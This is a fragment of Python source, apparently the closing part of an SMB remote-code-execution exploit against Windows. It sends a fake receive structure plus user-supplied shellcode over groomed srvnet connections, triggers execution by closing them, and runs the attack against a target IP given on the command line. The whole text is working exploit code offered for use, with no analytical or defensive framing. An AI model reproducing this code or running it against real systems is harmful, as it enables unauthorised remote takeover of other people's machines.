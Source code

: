 ```
	if retStatus == 0xc000000d:
		print('good response status: INVALID_PARAMETER')
	else:
		print('bad response status: 0x{:08x}'.format(retStatus))
		

	# one of srvnetConn struct header should be modified
	# a corrupted buffer will write recv data in designed memory address
	for sk in srvnetConn:
		sk.send(fake_recv_struct + shellcode)

	# execute shellcode by closing srvnet connection
	for sk in srvnetConn:
		sk.close()

	# nicely close connection (no need for exploit)
	conn.disconnect_tree(tid)
	conn.logoff()
	conn.get_socket().close()


if len(sys.argv) < 3:
	print("{} <ip> <shellcode_file> [numGroomConn]".format(sys.argv[0]))
	sys.exit(1)

TARGET=sys.argv[1]
numGroomConn = 13 if len(sys.argv) < 4 else int(sys.argv[3])

fp = open(sys.argv[2], 'rb')
sc = fp.read()
fp.close()

print('shellcode size: {:d}'.format(len(sc)))
print('numGroomConn: {:d}'.format(numGroomConn))

exploit(TARGET, sc, numGroomConn)
print('done')
            

```